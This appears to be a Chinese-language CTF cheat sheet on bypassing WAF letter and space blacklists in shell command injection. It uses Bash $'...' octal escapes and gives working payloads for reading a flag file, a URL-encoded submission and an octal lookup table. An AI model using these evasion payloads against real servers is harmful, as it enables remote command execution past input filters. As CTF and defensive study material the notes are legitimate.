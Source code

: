 适用场景
- 服务器端执行：`system($cmd)` / `/bin/sh -c <cmd>`
- WAF 黑名单：屏蔽字母(A–Z,a–z)、空格、以及常见符号（. / ; 等）
- 目标：构造 **不含字母且无空格** 的命令，完成 RCE（如读取 `/realflag`）

核心原理：Bash ANSI‑C 字符串展开
- 语法：**$'...'**（注意必须带 `$`）
- 作用：把转义序列解析为真实字节
- 八进制转义：`\ooo`（o=0–7，最多 3 位）
- 示例：
  - `$'\141'` → `a`
  - `$'\143\141\164'` → `cat`
  - 普通 `'...'` 不解析转义，`$'...'` 才会解析

基本模板（无字母 + 无空格）
- 用 **换行** 或 **Tab** 代替空格分隔命令与参数
  - 换行：`$'\012'`（等价 `\n`）
  - Tab：`$'\011'`（等价 `\t'`）
- 模板：
  - `$'<cmd-in-octal>'$'\012'$'<arg1-in-octal>'$'\012'$'<arg2-in-octal>' ...`

实战示例（读取 /realflag）
1) 直接读 flag（换行做分隔）：
   - `$'\143\141\164'$'\012'$'\057\162\145\141\154\146\154\141\147'`
     - `cat` → `\143\141\164`
     - `/realflag` → `\057\162\145\141\154\146\154\141\147`
2) 列根目录（确认文件名）：
   - `$'\154\163'$'\012'$'\057'`  （`ls` + `/`）

URL 层辅助（穿过网关）
- 将整个 payload 百分号编码后再提交（更稳）：
  - 例：`$'\143\141\164'$'\012'$'\057\162\145\141\154\146\154\141\147'`
    → `cmd=%24%27%5C143%5C141%5C164%27%24%27%5C012%27%24%27%5C057%5C162%5C145%5C141%5C154%5C146%5C154%5C141%5C147%27`
- 如存在双解场景，可按题目情况尝试双重编码

常见受限符号的八进制写法（速查）
- 空格 ` ` : `\040`（但通常用换行/Tab代替）
- 换行 `\n`: `\012`
- Tab `\t` : `\011`
- `/` : `\057`     `.` : `\056`     `-` : `\055`
- `;` : `\073`     `|` : `\174`     `&` : `\046`
- `>` : `\076`     `<` : `\074`     `,` : `\054`
- `'` : `\047`     `"` : `\042`     `\` : `\134`
- `?` : `\077`     `*` : `\052`     `+` : `\053`
- `:` : `\072`     `=` : `\075`     `@` : `\100`
- `(` : `\050`     `)` : `\051`     `$` : `\044`
- `#` : `\043`     `!` : `\041`     `%` : `\045`     `~` : `\176`

为什么必须用 `$`
- `'...'`：不解析 `\ooo`，只输出原样文本
- **`$'...'`**：解析 `\ooo` → 产出真实字节，才能把“无字母”的输入变成字母命令在 shell 中执行

环境与兼容性
- `$'...'` 是 **bash** 的特性；很多 CTF 环境 `/bin/sh` 链到 bash，因此可用
- 若 `/bin/sh` 非 bash（如 dash/ash），`$'...'` 可能失效 → 需改走其它策略（非本总结范围）
- 十进制不支持：`\97` 非法（八进制只有 0–7）
